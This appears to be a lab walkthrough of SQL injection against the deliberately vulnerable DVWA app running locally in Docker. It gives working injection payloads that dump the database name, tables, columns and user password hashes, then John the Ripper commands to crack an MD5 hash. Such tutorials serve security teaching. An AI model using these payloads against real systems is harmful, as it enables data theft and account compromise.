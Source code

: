 
# SQL Injection Demo

* https://owasp.org/www-community/attacks/SQL_Injection


## Source Code Location
```
docker exec -it dvwa bash 
# cd /var/www/html
# cd /var/www/html/vulnerabilities/sqli
```

## Vunerable SQL Code

* Source Files: /var/www/html/vulnerabilities/sqli/source/low.php
* Note: $id comes from User Input

```
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

## DVWA Security Settings

* Click on "DVWA Security" (http://localhost/security.php)
* Set Security Level to "Low"


## On "SQL Injection" Web Form, Try

* Click on "SQL Injection" (http://localhost/vulnerabilities/sqli)
* User ID = Re11k'
* Should Get Error:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Re11k''' at line 1
```

Note: 
```
SELECT first_name, last_name FROM users WHERE user_id = ''Re11k''
```

## Now Try

* User ID = Re11k' or 'a' = 'a
* Should See Data Exposed

Note:
```
SELECT first_name, last_name FROM users WHERE user_id = 'Re11k' or 'a' = 'a'
```


## Get Database Name

* User ID = Re11k' and 1=1 union select null, database() #

Note:
```
SELECT first_name, last_name FROM users WHERE user_id = 'RRe11k' and 1=1 union select null, database() #'
```


## Get Table Names

* User ID = Re11k' and 1=1 union select null, table_name from information_schema.tables #


## Get Columns from Users Table

* User ID = Re11k' and 1=1 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #


## Get Passwords

* User ID = Re11k' and 1=1 union select null, concat(user,0x0a,password) from users #


## Hack Passwords with John the Ripper

```
docker run --name kali --network attack --tty --interactive kalilinux/kali-rolling /bin/bash

> apt update && apt -y install john
> echo "admin:5f4dcc3b5aa765d61d8327deb882cf99" > password.txt
> john --format=raw-MD5 password.txt --show
> echo -n "password" | md5sum
>
> john --wordlist=/usr/share/john/password.lst --rules password.txt
> john --wordlist=/usr/share/john/password.lst --format=raw-MD5 --rules password.txt --show
> john --show password.txt

Check on a Mac:
mac$ md5 -s password
MD5 ("password") = 5f4dcc3b5aa765d61d8327deb882cf99
```








